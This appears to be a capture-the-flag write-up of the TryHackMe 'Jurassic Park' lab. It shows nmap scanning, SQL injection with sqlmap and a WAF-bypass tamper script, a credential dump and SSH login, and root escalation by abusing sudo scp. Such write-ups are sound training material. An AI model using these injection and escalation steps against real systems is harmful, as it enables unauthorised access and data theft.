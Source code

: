 ```yaml
---
title: "Jurassic Challenge"
date: 2025-07-05 14:00:00
categories: [Tryhackme, Challenges]
tag: [Enumeration, SQL Injection, Privilege Escalation]
---
```


# Jurassic Park Challenge

**Room URL**: https://tryhackme.com/room/jurassicpark

---

# Objective:

Enumerate the web application, obtain credentials to the server, and find four flags hidden in the file system.

## Enumeration:

**Port Scanning**

```bash
sudo nmap -sS -F -n 10.10.165.112
Nmap scan report for 10.10.165.112
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

visited the website on port 80, while I was viewing the tickets, I modified the URL to the `id=5` parameter, which revealed a ticket priced 0.

![image](https://github.com/user-attachments/assets/bee5e0b8-a332-4615-a07a-1481282dc139)

To test if the website is vulnerable to SQL injection, add a single quote next to the id `id=5'`, which will break the database query.

![image](https://github.com/user-attachments/assets/44f1db2f-d16e-47c0-b3ea-338377e60b3c)

we have confiremed that the website is vulnerable to **SQLi**, I used [SQLmap](https://sqlmap.org/) tool to automate the process of detection and exploiting **SQLi vulnerability**.

Before starting the attack, inject a malformed query and check the error message to identify the database.

![image](https://github.com/user-attachments/assets/4aac1e8f-0337-4906-b128-c24930055aa2)

This confirms that the back-end database is **MySQL**. Now let's start SQLi attack. I added this option `--tamper=space2comment.py` to bypass common WAF filters

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbs --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
...
sqlmap identified the following injection point(s) with a total of 261 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=5 AND 6078=6078

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=5 AND GTID_SUBSET(CONCAT(0x7162767a71,(SELECT (ELT(3314=3314,1))),0x717a626271),3314)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 3423 FROM (SELECT(SLEEP(5)))jsGZ)
---
[10:30:24] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:30:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[10:30:25] [INFO] fetching database names
[10:30:26] [INFO] retrieved: 'information_schema'
[10:30:26] [INFO] retrieved: 'mysql'
[10:30:26] [INFO] retrieved: 'park'
[10:30:26] [INFO] retrieved: 'performance_schema'
[10:30:26] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] mysql
[*] park
[*] performance_schema
[*] sys

[10:30:26] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'

```

**Findings:**
- Databases: information_schema, mysql, park, performance_schema, sys.
- Target database: park.

## Database Enumeration

Extract tables from **park**

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park --tables --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
[10:53:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:53:45] [INFO] testing MySQL
[10:53:45] [INFO] confirming MySQL
[10:53:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[10:53:46] [INFO] fetching tables for database: 'park'
[10:53:46] [INFO] retrieved: 'items'
[10:53:46] [INFO] retrieved: 'users'
Database: park
[2 tables]
+-------+
| items |
| users |
+-------+

[10:53:46] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'
```
**Findings:**
- Tables:  items, users

## Credential Dumping

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park -T items,users --dump --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.4#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
              
---

Database: park
Table: items
[5 entries]

| id  | sold | price  | package     | information                                                                                                                                                                            |
+-----+------+--------+-------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1   | 4    | 500000 | Gold        | Childen under 5 can attend free of charge and will be eaten for free. This package includes a dinosaur lunch, tour around the park AND a FREE dinosaur egg from a dino of your choice! |
| 2   | 11   | 250000 | Bronse      | Children under 5 can attend free of charge and eat free. This package includes a tour around the park and a dinosaur lunch! Try different dino's and rate the best tasting one!        |
| 3   | 27   | 100000 | Basic       | Children under 5 can attend for free and eat free. This package will include a basic tour around the park in the brand new automated cars!                                             |
| 5   | 0    | 0      | Development | Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?                                                                                         |
| 100 | -1   | -1     | ...         | Nope                                                                                                                                                                                   |
---

Database: park
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | D0nt3ATM3 |          |
| 2  | ih8dinos  |          |
+----+-----------+----------+

```

Used credentials (`dennis:ih8dinos`) to access the machine:

## Initial Access

```bash
ssh dennis@10.10.165.112     
The authenticity of host '10.10.165.112 (10.10.165.112)' can't be established.
ED25519 key fingerprint is SHA256:RgFyYsoL/n7m7p/t714RGHLqLtFNcn/+9tndcXsYijA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
dennis@10.10.165.112's password: 

dennis@ip-10-10-165-112:~$ whoami
dennis
```

The user doesn't have root access. To gain privileged access, the first thing you do is to check what privileged commands your current user is allowed to run with `sudo` without requiring a password.

```bash
dennis@ip-10-10-165-112:~$ ls -al
total 52
drwxr-xr-x 4 dennis dennis 4096 Jul  5 15:27 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1001 Feb 16  2019 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Jul  5 15:06 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
drwxrwxr-x 2 dennis dennis 4096 Jul  5 15:15 .nano
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
-rw-r--r-- 1 dennis dennis 4096 Jul  5 15:21 .test.txt.swp
-rw------- 1 dennis dennis 4631 Jul  5 15:27 .viminfo
dennis@ip-10-10-165-112:~$ 
dennis@ip-10-10-165-112:~$ sudo -l
Matching Defaults entries for dennis on ip-10-10-165-112.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-165-112.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

## Privilege Escalation

Followed [GTFOBins](https://gtfobins.github.io/gtfobins/scp/) to abuse `scp`.

1. Created a temporary file with a reverse shell payload

```bash
TF=$(mktemp)                      
echo 'sh 0<&2 1>&2' > $TF      
chmod +x "$TF"                    
```
2. Executed scp with the malicious payload
```bash
sudo scp -S $TF x y:                   
```
`-S $TF` tells `scp` to use `$TF` (our script) instead of the default SSH for the connection. Since scp runs as root (via `sudo`), our payload executes with root privileges.

![image](https://github.com/user-attachments/assets/31b117cf-7d60-42e2-a42a-58296d63ef36)

